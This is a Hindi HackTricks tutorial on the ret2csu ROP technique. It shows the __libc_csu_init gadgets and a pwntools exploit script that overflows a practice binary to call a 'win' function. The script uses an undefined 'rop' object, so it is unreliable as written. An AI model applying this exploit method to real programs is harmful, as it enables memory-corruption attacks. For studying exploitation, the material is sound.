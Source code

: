 # Ret2csu

{{#include ../../../banners/hacktricks-training.md}}

## Basic Information

**ret2csu** एक हैकिंग तकनीक है जिसका उपयोग तब किया जाता है जब आप किसी प्रोग्राम पर नियंत्रण पाने की कोशिश कर रहे होते हैं लेकिन आपको प्रोग्राम के व्यवहार को नियंत्रित करने के लिए आमतौर पर उपयोग किए जाने वाले **gadgets** नहीं मिलते।&#x20;

जब एक प्रोग्राम कुछ विशेष लाइब्रेरी (जैसे libc) का उपयोग करता है, तो इसमें विभिन्न भागों के बीच बातचीत को प्रबंधित करने के लिए कुछ अंतर्निहित फ़ंक्शन होते हैं। इन फ़ंक्शनों में कुछ छिपे हुए रत्न होते हैं जो हमारे गायब gadgets के रूप में कार्य कर सकते हैं, विशेष रूप से एक जिसे `__libc_csu_init` कहा जाता है।

### The Magic Gadgets in \_\_libc_csu_init

`__libc_csu_init` में, दो निर्देशों के अनुक्रम (हमारे "जादुई gadgets") हैं जो विशेष रूप से ध्यान आकर्षित करते हैं:

1. पहला अनुक्रम हमें कई रजिस्टर (rbx, rbp, r12, r13, r14, r15) में मान सेट करने की अनुमति देता है। ये ऐसे स्लॉट की तरह होते हैं जहाँ हम बाद में उपयोग करने के लिए नंबर या पते संग्रहीत कर सकते हैं।
```armasm
pop rbx;
pop rbp;
pop r12;
pop r13;
pop r14;
pop r15;
ret;
```
यह गैजेट हमें इन रजिस्टरों को नियंत्रित करने की अनुमति देता है, उन्हें स्टैक से मानों को पॉप करके।

2. दूसरा अनुक्रम उन मानों का उपयोग करता है जो हमने सेट किए हैं ताकि कुछ चीजें की जा सकें:
- **विशिष्ट मानों को अन्य रजिस्टरों में स्थानांतरित करें**, जिससे वे हमारे लिए फ़ंक्शनों में पैरामीटर के रूप में उपयोग करने के लिए तैयार हो जाएं।
- **एक स्थान पर कॉल करें** जो r15 और rbx में मानों को जोड़कर और फिर rbx को 8 से गुणा करके निर्धारित किया गया है।
```
mov rdx, r14;
mov rsi, r13;
mov edi, r12d;
call qword [r15 + rbx*8];
```
## उदाहरण

कल्पना कीजिए कि आप एक syscall करना चाहते हैं या `write()` जैसी किसी फ़ंक्शन को कॉल करना चाहते हैं लेकिन आपको `rdx` और `rsi` रजिस्टर में विशेष मानों की आवश्यकता है। सामान्यतः, आप उन गैजेट्स की तलाश करेंगे जो इन रजिस्टरों को सीधे सेट करते हैं, लेकिन आप कोई नहीं पा रहे हैं।

यहाँ **ret2csu** का उपयोग होता है:

1. **रजिस्टर सेट करें**: पहले जादुई गैजेट का उपयोग करें ताकि स्टैक से मानों को निकालकर rbx, rbp, r12 (edi), r13 (rsi), r14 (rdx), और r15 में डाल सकें।
2. **दूसरे गैजेट का उपयोग करें**: उन रजिस्टरों को सेट करने के बाद, आप दूसरे गैजेट का उपयोग करते हैं। यह आपको आपके चुने हुए मानों को `rdx` और `rsi` (क्रमशः r14 और r13 से) में स्थानांतरित करने की अनुमति देता है, जिससे फ़ंक्शन कॉल के लिए पैरामीटर तैयार होते हैं। इसके अलावा, `r15` और `rbx` को नियंत्रित करके, आप प्रोग्राम को उस फ़ंक्शन को कॉल करने के लिए मजबूर कर सकते हैं जो आप पता लगाते हैं और `[r15 + rbx*8]` में रखते हैं।

आपके पास [**इस तकनीक का उपयोग करते हुए एक उदाहरण और इसे यहाँ समझाते हुए**](https://ir0nstone.gitbook.io/notes/types/stack/ret2csu/exploitation) है, और यह अंतिम एक्सप्लॉइट है जिसका इसने उपयोग किया:
```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

POP_CHAIN = 0x00401224 # pop r12, r13, r14, r15, ret
REG_CALL = 0x00401208  # rdx, rsi, edi, call [r15 + rbx*8]
RW_LOC = 0x00404028

rop.raw('A' * 40)
rop.gets(RW_LOC)
rop.raw(POP_CHAIN)
rop.raw(0)                      # r12
rop.raw(0)                      # r13
rop.raw(0xdeadbeefcafed00d)     # r14 - popped into RDX!
rop.raw(RW_LOC)                 # r15 - holds location of called function!
rop.raw(REG_CALL)               # all the movs, plus the call

p.sendlineafter('me\n', rop.chain())
p.sendline(p64(elf.sym['win']))            # send to gets() so it's written
print(p.recvline())                        # should receive "Awesome work!"
```
> [!WARNING]
> ध्यान दें कि पिछले एक्सप्लॉइट का उद्देश्य **`RCE`** करना नहीं है, इसका उद्देश्य केवल `win` नामक एक फ़ंक्शन को कॉल करना है (ROP चेन में `gets` को कॉल करके `win` का पता लेना और इसे r15 में स्टोर करना) एक तीसरे तर्क के साथ जिसका मान `0xdeadbeefcafed00d` है।

### सीधे libc का उपयोग क्यों न करें?

आमतौर पर ये मामले [**ret2plt**](../common-binary-protections-and-bypasses/aslr/ret2plt.md) + [**ret2lib**](ret2lib/) के लिए भी संवेदनशील होते हैं, लेकिन कभी-कभी आपको उन पैरामीटरों को नियंत्रित करने की आवश्यकता होती है जो सीधे libc में पाए गए गैजेट्स के साथ आसानी से नियंत्रित नहीं किए जा सकते। उदाहरण के लिए, `write()` फ़ंक्शन को तीन पैरामीटर की आवश्यकता होती है, और **इन सभी को सीधे सेट करने के लिए गैजेट्स खोजना संभव नहीं हो सकता**।

{{#include ../../../banners/hacktricks-training.md}}
